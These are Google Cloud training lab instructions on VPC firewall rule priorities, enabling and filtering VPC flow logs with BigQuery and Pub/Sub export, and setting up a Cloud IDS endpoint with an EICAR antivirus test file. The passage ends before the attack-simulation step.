Allow all instances on the same network to communicate via ping
While still logged in to the mynet-vm-1 instance, try pinging the mynet-vm-2 instance with the command shown below. (Replace the [PROJECT_ID] with the PROJECT_ID for your lab exercise.)
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
The ping command will not succeed. Even though the mynet-vm-1 and the mynet-vm-2 instances are in the same VPC network, all traffic is blocked by default unless there is a firewall rule allowing it.
Press Ctrl+C to stop ping if needed. Do not log out of the mynet-vm-1 instance yet.
To open a new Cloud Shell window, click Open a new tab (+).
To add a firewall rule that allows ALL instances in the mynetwork VPC to ping each other, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-allow-icmp-internal --network \mynetwork --action ALLOW --direction INGRESS --rules icmp \--source-ranges 10.128.0.0/9
Note: This firewall rule does not use a target-tag and therefore applies to all instances in the network by default. There is no need to tag any instances for this firewall to take effect. This kind of firewall rule is useful if all instances in a network need the same rule, but should also be used with caution because they affect all instances.
Switch back to the first Cloud Shell session that is connected to mynet-vm-1 and run the ping again. This time it should work.
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
Notice that the hostname mynet-vm-2 resolved to the internal IP address of the instance. The internal IP will start with 10.132.0 (for example, 10.132.0.2). Google Cloud resolves internal hostnames for you.
Press Ctrl+C to stop ping.
You can also try pinging the internal IP address directly and that will also work. Press Ctrl+C to stop ping.
To locate the external IP address of mynet-vm-2, on the Navigation menu, click Compute Engine > VM instances.
Click on mynet-vm-2, locate and copy the external IP address of the instance.
From the Cloud Shell session that is connected to mynet-vm-1, try to ping the external IP address of the mynet-vm-2 instance:
xxxxxxxxxxping <external_ip_of_mynet-vm-2></external_ip_of_mynet-vm-2>
This should NOT work. When you ping the external IP address, the connection goes through the internet gateway, which causes the request to be NATed. The request is now coming from the external IP address of the mynet-vm-1 instance. The firewall rule is to only allow ICMP requests that come from internal IP addresses.
Press Ctrl+C to stop ping.
Click Check my progress to verify the objective.
Create custom ingress firewall rules
Check my progress
Task 5. Set the firewall rule priority
In this task, you set the firewall rule priority to deny ICMP traffic. You then verify that any traffic that does not match the rule priority is denied.
So far, all the rules created have been ingress allow rules, so the priority has not been important. Firewall rules can be both allow and deny, can specify ingress and egress, and have a priority from 0 to 65,535. If you do not set a priority, the default is 1,000. Rules are evaluated based on priority, starting from the lowest value. The first rule that matches gets applied.
In the first Cloud Shell session, verify that you are still connected to the mynet-vm-1 instance. You can tell because the prompt will be:
qwiklabs@mynet-vm-1:~$.
If not connected, use the following command to reconnect:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-1 --zone us-east4-a
Verify that you can still ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
Press Ctrl+C to stop ping.
Switch to your second Cloud Shell window (or open a new one).
In the second Cloud Shell, create a firewall ingress rule to deny ICMP traffic from any IP with a priority of 500:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-deny-icmp-all --network \mynetwork --action DENY --direction INGRESS --rules icmp \--priority 500
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance, and try to ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
It should no longer work. This new rule has a priority of 500, where the allow rule is 1,000.
Press Ctrl+C to stop ping.
Now change the deny rule to a priority of 2,000.
In the second Cloud Shell, modify the firewall rule just created and change the priority to
2000:
xxxxxxxxxxgcloud compute firewall-rules update \mynetwork-ingress-deny-icmp-all \--priority 2000
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance, and try to ping the mynet-vm-2 instance again:
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
This time it will work because the deny rule has a lower priority, so the allow rule is the first matching rule.
Press Ctrl+C to stop ping.
Task 6. Configure egress firewall rules
In this task, you create an egress firewall rule and set the priority to 10,000. You then verify that both ingress and egress rule allow that traffic.
From the second Cloud Shell window, list all the current firewall rules:
xxxxxxxxxxgcloud compute firewall-rules list \--filter="network:mynetwork"
Currently, the VMs are still able to ping each other because the rule that denies ICMP has a higher priority than the allow ICMP rule.
Now try an egress rule.
Create a firewall egress rule to block ICMP traffic from any IP with a priority of
10000:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-egress-deny-icmp-all --network \mynetwork --action DENY --direction EGRESS --rules icmp \--priority 10000
List all the current firewall rules again:
xxxxxxxxxxgcloud compute firewall-rules list \--filter="network:mynetwork"
Notice that the egress rule priority is set to 10,000, which is much higher than the rules created earlier.
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance and try to ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
It should no longer work. Even though the egress rule has a much higher priority of 10,000, it is still blocking traffic. This is because for traffic to be allowed, there must be both an ingress and egress rule allowing that traffic. The priority of ingress rules does not affect the priority of egress rules.
Press Ctrl+C to stop ping.
Click Check my progress to verify the objective.
Create a firewall rule with priority and egress firewall rule.
Check my progress
Congratulations!
In this lab, you did the following:
Created an auto-mode network, a custom-mode network, and associated subnetworks.
Investigated firewall rules in the default network, and then deleted the default network.
Used firewall rule features for more precise and flexible control of connections.
LAB - Configuring and Using VPC Flow Logs in Cloud Logging
Overview
In this lab, you will investigate VPC flow logs. VPC flow logs record network flows sent from or received by VM instances. These logs can be used for network monitoring, forensics, real-time security analysis, and even for expense optimization.
During this lab you enable VPC flow logging and use Cloud Logging to view the logs. Next, you perform network monitoring, forensics, and real-time security analysis, before finally, disabling VPC flow logging.
Objectives
In this lab, you learn how to:
Enable VPC flow logging for a subnet.
Access logs via Cloud Logging.
Filter logs for specific subnets, VMs, ports, or protocols.
Perform network monitoring, forensics, and real-time security analysis.
Disable VPC flow logging.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Enable VPC flow logging
In this task, you enable flow logging for two subnets. Flow logging can also be enabled in exactly the same manner for custom user-defined networks. Flow logging can also be enabled when you create a subnet in one step.
Use gcloud in Cloud Shell to enable VPC flow logging on two subnets
To enable flow logging in two subnets, run the following commands in Cloud Shell:
xxxxxxxxxxgcloud compute networks subnets update default \--region us-central1 --enable-flow-logs \--logging-metadata=include-all
Copied!
xxxxxxxxxxgcloud compute networks subnets update default \--region europe-west4 --enable-flow-logs \--logging-metadata=include-all
Copied!
Notice that you enabled VPC flow logging for the subnets in us-central1 and europe-west4. None of the other subnets have flow logging enabled.
To create three instances in different subnets (to be used for later testing), run the following commands:
xxxxxxxxxxgcloud compute instances create default-us-vm \--machine-type e2-micro \--zone=us-central1-c --network=default
Copied!
xxxxxxxxxxgcloud compute instances create default-eu-vm \--machine-type e2-micro \--zone=europe-west4-a --network=default
Copied!
xxxxxxxxxxgcloud compute instances create default-ap-vm \--machine-type e2-micro \--zone=asia-south1-b --network=default
Copied!
Note: If you get a ZONE_RESOURCE_POOL_EXHAUSTED error, update the zone in the gcloud command and try running it again. For example, if us-central1-a is failing, try us-central1-binstead.
Click Check my progress to verify the objective.
Enable VPC flow logging on subnets and create instances
Check my progress
Task 2. Generate network traffic for testing
In this task, you create network traffic to test the connectivity between the instances.
In the Google Cloud Console, on the Navigation menu, click Compute Engine > VM instances to display a list of VM instances.
Record both the internal and external IP addresses of each instance. You will need these IPs later in this lab.
| Instance | Internal IP | External IP |
|---|---|---|
| default-ap-vm | ***** | ***** |
| default-eu-vm | ***** | ***** |
| default-us-vm | ***** | ***** |
In the row for the
default-us-vminstance, click SSH.When connected via SSH, issue the following commands:
xxxxxxxxxxsudo apt-get install -y hosthost www.wikipedia.org 8.8.8.8ping -c 5 default-eu-vm.europe-west4-aping -c 5 www.google.comcurl http://www.google.com
Copied!
These commands did the following:
Installed the host DNS resolution utility.
Performed a DNS lookup of www.wikipedia.org using the 8.8.8.8 DNS server.
Pinged the default-eu-vm instance and www.google.com
Used curl to create an HTTP connection to www.google.com
Next, you run the same commands as above, but instead of pinging the default-eu-vm from the default-us-vm, you ping the default-us-vm from the default-eu-vm.
Return to the Cloud Console, and in the row for the
default-eu-vminstance, click SSH.When connected via SSH, issue the following commands:
xxxxxxxxxxsudo apt-get install -y hosthost www.wikipedia.org 8.8.8.8ping -c 5 default-us-vm.us-central1-cping -c 5 cloud.google.comcurl http://www.google.com
Copied!
Return to the Cloud Console, and in the row for the
default-ap-vminstance, click SSH.When connected via SSH, issue the following commands:
xxxxxxxxxxsudo apt-get install -y hosthost www.bitnami.com 8.8.8.8curl http://www.bitnami.com
Copied!
Task 3. View flow logs in Cloud Logging
In this task, you view the VPC flow logs for all the projects in Cloud Logging.
Access all flow logs
In the Cloud Console, go to the Navigation menu > Logging > Logs Explorer. (If you do not see this menu option, then continue this lab, at step 3).
In the Query panel, under All Resource, click Subnetwork and then Apply.
Under All Log names, click compute.googleapis.com/vpc_flows and then Apply.
Note: If no log names appear for the above, try pasting in compute.googleapis.com%2Fvpc_flows instead.
Click Run query.
In the Query results panel, entries from the VPC flow logs appear. If you do not see compute.googleapis.com/vpc_flows, wait a few minutes for this log type to show up.
Note: This should show all the VPC flow logs for your project. Remember, you only have the flow logs enabled for two of the subnets.
Expand one of the log entries.
Within that log entry, expand
jsonPayload, and then expandconnection.
Note: Some entries do not have jsonPayload fields. You may need to open other entries until you find one that does.
Investigate the information about the connection; specifically notice that the port and IP address of both the source and destination have been logged.
Find a log that has
src_instanceinjsonPayload. Investigate the information about this src instance.
The src_instance may be one of your instances or an outside IP address if the traffic came from outside your VPC network.

Investigate any other information in this log entry or another.
Task 4. Perform advanced filtering
In this task, you perform advanced filtering using Query builder. You also explore access logs for specific source or destination IP, and for specific ports and protocols.
An advanced logs filter is a Boolean expression that specifies a subset of all the log entries in your project. A few things it can be used for include:
Choosing log entries for specific VMs.
Choosing log entries for specific source or destination ports.
Choosing log entries for specific source or destination IP address.
Choosing log entries specific protocols.
Click inside the Query box.
Remove the current query and paste in the following, replacing
<INSERT_PROJECT_ID>with your Qwiklabs Google Cloud Project ID:
xxxxxxxxxxresource.type="gce_subnetwork"log_name="projects/<INSERT_PROJECT_ID>/logs/compute.googleapis.com%2Fvpc_flows"
Copied!
Click Run query.
Note: For the remainder of this lab, be sure to always leave these two lines at the start of the filter. You will be adding additional lines after these two. If you accidentally delete or modify these two lines, copy them from above (be sure to change the project ID).
Access logs for a specific source or destination IP address
Add the following line to the end of the filter. Replace
Internal_IP_Of_default_us_vmwith the internal IP address of yourdefault_us_vminstance (you recorded this earlier):
xxxxxxxxxxjsonPayload.connection.src_ip="Internal_IP_Of_default_us_vm"
Copied!
Click Run query.
You now see all the log entries where the source IP address is the internal IP address of the default-us-vm instance. These should be the same entries as for the earlier filter that showed the source instance of default-us-vm.
Access logs for specific ports and protocols
Delete the last line in the filter (the one matching
src_ip) and replace it with the following line that will only show entries with a destination port of 22 (SSH):
xxxxxxxxxxjsonPayload.connection.dest_port=22
Copied!
Click Run query and observe the results. You should see three logs because you SSH-ed into the VMs three times.
Modify the last line of the filter to only show traffic with a destination port of 80 (HTTP):
xxxxxxxxxxjsonPayload.connection.dest_port=80
Copied!
Click Run query and observe the results.
Match multiple ports by replacing the last line and adding this statment with an
ORto the end of the port filter:
xxxxxxxxxxjsonPayload.connection.dest_port=(80 OR 22)
Copied!
Change the last line in the filter to only show entries using the UDP protocol (protocol #17):
xxxxxxxxxxjsonPayload.connection.protocol=17
Copied!
Click Run query and observe the results.
You may see a few entries in the log. These would correspond to the DNS calls you made with the host utility.
Investigate one of the log entries and locate the destination port number that DNS uses.
Note: DNS uses port 53.
Modify the filter to show all entries with a protocol of 17 and destination port of 53:
xxxxxxxxxxjsonPayload.connection.protocol=17jsonPayload.connection.dest_port=53
Copied!
Click Run query and observe the results.
Note: Currently, flow logs only monitor UDP (protocol #17) and TCP (protocol #6). Earlier, you generated some ICMP traffic on the instances using ping. ICMP is protocol #1. If you create a filter to show protocol #1, you will not see any entries. Try this if you want.
Task 5. Perform network monitoring and support real-time security analysis
In this task, you create a filter and use it to see whether any RDP traffic is attempting to access the VPC.
Search for unexpected ports and protocols
Because you are running Linux instances within the VPC network, you should not see any RDP traffic. However, there is a firewall rule within the default settings that allows RDP traffic from anywhere, and this means that someone or something on the internet could attempt to connect to your servers using the RDP protocol.
Modify the flow log filter to show all traffic with a destination port of 3389 (RDP). Be sure to leave the first two lines of the existing filter, but delete and replace the other lines with the following and click Run query:
xxxxxxxxxxjsonPayload.connection.dest_port=3389
Copied!
If you see any RDP traffic, investigate where the traffic is coming from. You may not see any RDP traffic, but it is common to see at least some. If you did not see any traffic, wait a few minutes and check again.
If you did see some RDP traffic, which often happens, that demonstrates how pervasive unwanted traffic can be on the internet. It also shows why ensuring that VPC networks and firewall rules are set up correctly is important.
By using the default VPC in this lab, with all of the default firewall rules, you saw the results of not fine-tuning these rules to help exclude unwanted traffic.
Note: It is a recommended best practice for production systems to use a custom VPC with very specific firewall rules and delete the default VPC.
Note: Another service that can help with issues like restricting unwanted traffic is Google Cloud Armor. Google Cloud Armor delivers defense at scale against infrastructure and application Distributed Denial of Service (DDoS) attacks using Google's global infrastructure and security systems.
Create exports to support real-time security analysis
Flow logs can be exported to any destination that Cloud Logging export supports (Pub/Sub, BigQuery, etc.). Creating an export will export future matching logs to the selected destination, existing logs will not be exported.
Exporting logs to BigQuery allows for the BigQuery analysis tools to be used on your logs to perform analysis. Exporting logs to Pub/Sub allows your logs to be streamed to other applications, other repositories, or third parties.
When you create a Cloud export, the current filter will be applied to the export. This means that only events that match the filter will be exported. For example, if you have a filter that only displays traffic to the destination port 3389, only traffic that matches that filter will be exported.
This can help reduce the amount of data that is exported (which could lower costs) or allow for different exports depending on what the data contains. For this lab you will clear the filter and export all logs because you do not have much traffic.
Clear all the text in the query editor and click Run query.
Click Actions > Create Sink.
For "Sink name", type FlowLogBQExport and click Next.
For "Select sink service", select BigQuery dataset.
For "Select Bigquery dataset", select Create new BigQuery dataset.
For "Dataset ID", type
flowlogs_dataset, and then click Create dataset.Click Create sink. The Logs Router Sinks page appears.
You should be able to see the sink you created (FlowLogBQExport). If you are unable to see the sink click on Logs Router.
On the right side, click the More actions menu (
) for your export and select View sink details.
Click Cancel.
Note: All future logs will now be exported to BigQuery. The BigQuery tools can now be used to perform analysis on the flow log data. You will perform a simple query in BigQuery later in the lab.
Note: You could also export log entries to Pub/Sub or Cloud Storage. Exporting to Pub/Sub can be useful if you want to flow through an ETL process before storing in a database (Operations > Pub/Sub > Dataflow > BigQuery/Cloud Bigtable). Exporting to Cloud Storage will batch up entries and write them into Cloud Storage objects approximately every hour.
Now create an export to Pub/Sub.
On the Logs Router page, click Create sink.
For "Sink name", type FlowLogPubSubExport, and click Next.
Select "Select sink service" as Cloud Pub/Sub topic.
For "Select a Cloud Pub/Sub topic", select Create a Topic.
For Topic ID, type FlowLogsTopic, and then click Create.
Click Create sink.
The Logs Router Sinks page appears. You should be able to see the sink you created (FlowLogsTopic). If you are unable to see the sink click on Logs Router.
On the right side, click the More actions menu for your export and select View sink details.
This will show the filter that was present when the export was created.
Click Cancel.
You can now subscribe to the new Pub/Sub topic and receive notifications when new logs are available. This allows for the logs to be streamed to and integrated with a SIEM (Security Information and Event Management) tool.
SIEM tools are used to gain real-time operational insights and create audit reports using powerful visualization capabilities.
Task 6. Analyzing flow logs in BigQuery
In this task, you analyze flow logs in BigQuery.
Note: When you export logs to a BigQuery dataset, Cloud Logging creates dated tables to hold the exported log entries. Log entries are placed in tables whose names are based on the entries' log names.
In the Cloud Console, on the Navigation menu, click BigQuery.
In the navigation pane under Explorer, expand the project name to see the flowlogs_dataset dataset.
Expand the dataset to see the table with your exported flow logs.
Click on the table name that starts with
compute_googleapis_com_vpc_flows_and review the schemas and details of the tables that are being used.
Note: If you don't see that table appear in the dataset, open the navigation menu and click "Cloud Overview" or any other service. Then, open the navigation menu and select BigQuery and try to find the table again (it sometimes takes a minute or two for the table to appear in the dataset).
Click Query.
Delete the text provided in the New query window and paste in the query below:
xxxxxxxxxx#standardSQLSELECTjsonPayload.connection.dest_ip,resourceFROM`flowlogs_dataset.compute_googleapis_com_vpc_flows*` WHEREjsonPayload.connection.dest_port = 22LIMIT 1000
Copied!
Click Run.
This query returns information about traffic connecting to port 22.
After a couple of seconds, the results are displayed. You should see one or two entries, which is the activity you generated in this lab. Remember, BigQuery is only showing activity since the export was created.
Note: If you did not see any results, you may need to generate some traffic to the instances. To do so, go to the Navigation menu > Compute Engine and click SSH for each instance. Then try the query again.
Click Check my progress to verify the objective.
Create exports and analyze flow logs in BigQuery
Check my progress
Task 7. Disable flow logging
In this task, you disable VPC flow logging. VPC flow logging can be turned off with the --no-enable-flow-logs option.
Try disabling it on one of your subnets by running the following command in the Cloud Shell terminal:
xxxxxxxxxxgcloud compute networks subnets update default \--region europe-west4 --no-enable-flow-logs
Copied!
You can verify that it has been disabled by viewing the VPC in the Cloud Console. On the Navigation menu, click VPC network > VPC networks. If prompted click on LEAVE.
Task 8. Review
In this lab, you enabled VPC flow logging for a subnet. You accessed logs via Cloud Logging. You also filtered logs for specific subnets, VMs, ports, and protocols. Next, you performed network monitoring, forensics, and real-time security analysis. Finally, you disabled VPC flow logging.
LAB - Getting Started with Cloud IDS
Overview
In this lab, you deploy Cloud Intrusion Detection System (Cloud IDS), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. You simulate multiple attacks and view the threat details in the Google Cloud console.

Objectives
In this lab, you learn how to perform the following tasks:
Build out a Google Cloud networking environment as shown in the previous diagram.
Create a Cloud IDS endpoint.
Create two virtual machines using gcloud CLI commands.
Create a Cloud IDS packet mirroring policy.
Simulate attack traffic from a virtual machine.
View threat details in the Cloud console and Cloud Logging.
Setup
Before you click the Start Lab button
Note: Read these instructions.
Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
What you need
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Time to complete the lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab.
Note: If you are using a Pixelbook, open an Incognito window to run this lab.
How to start your lab and sign in to the Console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.
Copy the username, and then click Open Google Console. The lab spins up resources, and then opens another tab that shows the Choose an account page.
Note: Open the tabs in separate windows, side-by-side.
On the Choose an account page, click Use Another Account. The Sign in page opens.
Paste the username that you copied from the Connection Details panel. Then copy and paste the password.
Note: You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Cloud console opens in this tab.
Note: You can view the menu with a list of Google Cloud Products and Services by clicking the Navigation menu at the top-left.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
This lab will all be done using gcloud CLI commands inside Cloud Shell.
Task 1. Enable APIs
In this task you set the project ID variable and then enable the APIs required for the lab.
In Cloud Shell, to set the Project_ID environment variable, run the following command:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project | sed '2d')
Copied!
Enable the Service Networking API:
xxxxxxxxxxgcloud services enable servicenetworking.googleapis.com \--project=$PROJECT_ID
Copied!
If prompted to authorize the command, click Authorize.
Enable the Cloud IDS API:
xxxxxxxxxxgcloud services enable ids.googleapis.com \--project=$PROJECT_ID
Copied!
Enable the Cloud Logging API:
xxxxxxxxxxgcloud services enable logging.googleapis.com \--project=$PROJECT_ID
Copied!
Click Check my progress to verify the objective.
Enable APIs.
Check my progress
Task 2. Build the Google Cloud networking footprint
In this task, you create a Google Cloud VPC network and configure private services access.
Private services access is a private connection between your VPC network and a network owned by Google or a third party. Google or the third party, entities who are offering services, are also known as service producers.
The private connection enables virtual machine (VM) instances in your VPC network and the services that you access to communicate exclusively by using internal IP addresses.
In Cloud Shell, to create a VPC, run the following command:
xxxxxxxxxxgcloud compute networks create cloud-ids \--subnet-mode=custom
Copied!
If prompted to authorize the command, click Authorize.
Add a subnet to the VPC for mirrored traffic in us-east1:
xxxxxxxxxxgcloud compute networks subnets create cloud-ids-useast1 \--range=192.168.10.0/24 \--network=cloud-ids \--region=us-east1
Copied!
Configure private services access:
xxxxxxxxxxgcloud compute addresses create cloud-ids-ips \--global \--purpose=VPC_PEERING \--addresses=10.10.10.0 \--prefix-length=24 \--description="Cloud IDS Range" \--network=cloud-ids
Copied!
Create a private connection:
xxxxxxxxxxgcloud services vpc-peerings connect \--service=servicenetworking.googleapis.com \--ranges=cloud-ids-ips \--network=cloud-ids \--project=$PROJECT_ID
Copied!
Click Check my progress to verify the objective.
Create a VPC.
Check my progress
Task 3. Create a Cloud IDS endpoint
In this task you create a Cloud IDS endpoint in us-east1 with a severity set to informational.
Cloud IDS uses a resource known as an IDS endpoint, a zonal resource that can inspect traffic from any zone in its region. Each IDS endpoint receives mirrored traffic and performs threat detection analysis.
Note: The creation of the IDS endpoint takes approximately 20 minutes.
To create a Cloud IDS endpoint, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud ids endpoints create cloud-ids-east1 \--network=cloud-ids \--zone=us-east1-b \--severity=INFORMATIONAL \--async
Copied!
Verify that the Cloud IDS endpoint is initiated:
xxxxxxxxxxgcloud ids endpoints list --project=$PROJECT_ID
Copied!
If the message Would you like to enable and retry appears, press Y.
The output should be similar to this:
Command Output
xxxxxxxxxxID: cloud-ids-east1LOCATION: us-east1-bSEVERITY: INFORMATIONALSTATE: CREATINGNETWORK: cloud-idsTRAFFIC_LOGS:
Click Check my progress to verify the objective.
Create a Cloud IDS endpoint.
Check my progress
Task 4. Create Firewall rules and Cloud NAT
In this task you create two firewall rules: allow-http-icmp and allow-iap-proxy.
To enable standard http port (TCP 80) connections, and ICMP protocol connections to the server VM from all sources in the cloud-ids network, you define the allow-http-icmp rule.
To enable SSH connections to the VMs from the Identity-Aware Proxy IP range, you define the allow-iap-proxy_ rule.
You also configure Cloud Router and then configure Cloud NAT. As a prerequisite for Cloud NAT, a Cloud Router must first be configured in the same region. To provide internet access to VMs that don't have a public IP address, a Cloud NAT must be created in the same region. The VMs will be created without a public IP address to make sure that they are inaccessible from the internet. However, they will need access to the internet to download updates and files.
To create the allow-http-icmp rule, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create allow-http-icmp \--direction=INGRESS \--priority=1000 \--network=cloud-ids \--action=ALLOW \--rules=tcp:80,icmp \--source-ranges=0.0.0.0/0 \--target-tags=server
Copied!
Create the allow-iap-proxy rule:
xxxxxxxxxxgcloud compute firewall-rules create allow-iap-proxy \--direction=INGRESS \--priority=1000 \--network=cloud-ids \--action=ALLOW \--rules=tcp:22 \--source-ranges=35.235.240.0/20
Copied!
Click Check my progress to verify the objective.
Add firewall rules to the VPC.
Check my progress
To create a Cloud Router, run the following command:
xxxxxxxxxxgcloud compute routers create cr-cloud-ids-useast1 \--region=us-east1 \--network=cloud-ids
Copied!
To configure a Cloud NAT, run the following command:
xxxxxxxxxxgcloud compute routers nats create nat-cloud-ids-useast1 \--router=cr-cloud-ids-useast1 \--router-region=us-east1 \--auto-allocate-nat-external-ips \--nat-all-subnet-ip-ranges
Copied!
Click Check my progress to verify the objective.
Create a Cloud Router.
Check my progress
Task 5. Create two virtual machines
In this task, you create two virtual machines (VMs). The first virtual machine is your web server, which is mirroring to Cloud IDS. The second virtual machine is the source of your attack traffic.
You establish an SSH connection to your server via Identity-Aware Proxy (IAP), check the status of your web service server, create a benign malware file on the web server, and then add content to the file.
To create a virtual machine to be a server mirroring to Cloud IDS, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute instances create server \--zone=us-east1-b \--machine-type=e2-medium \--subnet=cloud-ids-useast1 \--no-address \--private-network-ip=192.168.10.20 \--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \--tags=server \--image=debian-11-bullseye-v20240709 \--image-project=debian-cloud \--boot-disk-size=10GB
Copied!
This command creates a Debian server in us-east1 and installs a simple web service.
Create a virtual machine to be a client sending attack traffic:
xxxxxxxxxxgcloud compute instances create attacker \--zone=us-east1-b \--machine-type=e2-medium \--subnet=cloud-ids-useast1 \--no-address \--private-network-ip=192.168.10.10 \--image=debian-11-bullseye-v20240709 \--image-project=debian-cloud \--boot-disk-size=10GB
Copied!
This command prepares a Debian server in us-east1 to use as your client.
Click Check my progress to verify the objective.
Create a virtual machine.
Check my progress
Prepare your server
In this procedure, you validate your server and then create a benign malware payload for your client.
To establish an SSH connection to your server via IAP, run the following command:
xxxxxxxxxxgcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
Copied!
This command will prompt you through a series of steps to create an ssh key and the required directories.
To agree to the directory creation prompt, type Y.
When prompted for a passphrase, to use a blank passphrase, press ENTER twice.
You are now in the shell of your server VM.
Confirm that the web service is running
In this procedure, you check the status of your web service server. You create a benign malware file on the web server and then add content to the file.
To check the status of your web service, run the following Linux command:
xxxxxxxxxxsudo systemctl status nginx
Copied!
The output should be similar to this:
Command Output
xxxxxxxxxx● nginx.service - A high performance web server and a reverse proxy serverLoaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)Active: active (running) since Tue 2021-05-25 18:01:49 UTC; 5h 24 min agoDocs: man:nginx(8)Main PID: 1347 (nginx)Tasks: 3 (limit: 4665)Memory: 4.5MCGroup: /system.slice/nginx.service├─1347 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;├─1348 nginx: worker process└─1349 nginx: worker processMay 25 18:01:49 server systemd[1]: Starting A high performance web server and a reverse proxy server...May 25 18:01:49 server systemd[1]: Started A high performance web server and a reverse proxy server.
Change directory to the web service:
xxxxxxxxxxcd /var/www/html/
Copied!
Create a benign malware file on the web server. Run the following Linux command to create a text file:
xxxxxxxxxxsudo touch eicar.file
Copied!
Add the following content to the newly created file:
xxxxxxxxxxecho 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
Copied!
Exit the server VM shell and return to Cloud Shell:
xxxxxxxxxxexit
Copied!
Task 6. Create a Cloud IDS packet mirroring policy
In this task, you create a Cloud IDS packet mirroring policy. This policy determines what traffic is mirrored to the Cloud IDS. You will then attach this policy to the newly created Cloud IDS endpoint.
As mentioned earlier, the Cloud IDS endpoint creation takes some time. Before you can proceed with this lab, the endpoint must be in an active/ready state.
1.To verify that your Cloud IDS endpoint is active, in Cloud Shell, run the following command to show the current state of the Cloud IDS endpoint:
xxxxxxxxxxgcloud ids endpoints list --project=$PROJECT_ID | grep STATE
Copied!
The output should be similar to this:
Command Output
xxxxxxxxxxSTATE: READY
Continue to run this command every few minutes until the state shows READY.
Identify the Cloud IDS endpoint forwarding rule and confirm that the Cloud IDS endpoint state is READY:
xxxxxxxxxxexport FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")echo $FORWARDING_RULE
Copied!
The output should be similar to this:
Command Output
